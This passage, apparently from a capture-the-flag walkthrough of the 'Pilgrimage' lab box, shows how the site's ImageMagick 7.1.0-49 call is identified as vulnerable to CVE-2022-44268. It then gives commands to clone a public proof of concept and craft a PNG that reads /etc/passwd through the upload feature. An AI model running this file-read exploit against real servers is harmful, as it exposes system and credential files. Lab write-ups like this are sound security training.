 ```shell
  }
}
```
The code tells us how to POST requests with images to to index.php and how they are being handled. There is one particular part that tells us magick is being used to convert the images shrinking them by 50%:
```shell
exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
```
### Identifying the CVE-2022-44268
We can try using the file command on the magick file inside the git folder we got after using git_dumper:
```shell
file magick

magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```
That didnt tell us much. Let's run the file with --version parameter:
```shell
./magick --version

Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```
This gave us better results, now we know the version is ImageMagick 7.1.0-49.

Searching for "ImageMagick 7.1.0-49 exploit" on Google we found the following exploit:
```shell
https://github.com/entr0pie/CVE-2022-44268
```

### Arbitrary File Read with CVE-2022-44268
First, we need to download and read how to use the PoC from GitHub:
```shell
git clone https://github.com/entr0pie/CVE-2022-44268
cd CVE-2022-44268
pip3 install pypng
```
We will start reading the content of the /etc/passwd to enumerate users:
```shell
python3 CVE-2022-44268.py /etc/passwd
```
This created a file called output.png

Now we can go to the website, choose the file output.png and click on Shrink:
```shell
http://pilgrimage.htb
```
